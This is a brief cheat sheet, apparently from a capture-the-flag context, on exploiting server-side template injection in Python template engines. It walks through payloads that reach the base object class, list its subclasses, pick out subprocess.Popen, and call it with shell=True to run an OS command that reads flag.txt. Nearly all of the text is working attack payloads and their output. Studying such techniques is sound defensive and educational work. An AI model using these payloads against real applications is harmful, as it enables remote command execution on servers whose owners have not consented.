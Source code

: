 # SSTI

In the exploitation of an SSTI vulnerability, our goal is to recover access to the regular python execution flow by abusing objects that are non sandboxed.

1. Accessing <class 'object'>

Objects that are always accessible from the sandboxed env:

```
[]
''
()
dict
config
request

# example payload
{{ [].__class__.__base__ }} # <class 'object'>
```

2. Finding subclasses to abuse
```
{{ [].__class__.__base__.__subclasses__() }} # [<class 'type'>, <class 'weakref'>,..., <class 'subprocess.Popen'>,...]
```

The subprocess.Popen class allows us to run os commands and is of interest.
```
python3 extract_subclass_num.py subclasses subprocess
413:  <class 'subprocess.CompletedProcess'>
414:  <class 'subprocess.Popen'>
```
3. Running OS commands
```
{{ [].__class__.__base__.__subclasses__()[414]('cat flag.txt',shell=True,stdout=-1).communicate() # returns (stdout, stderr) }}
```
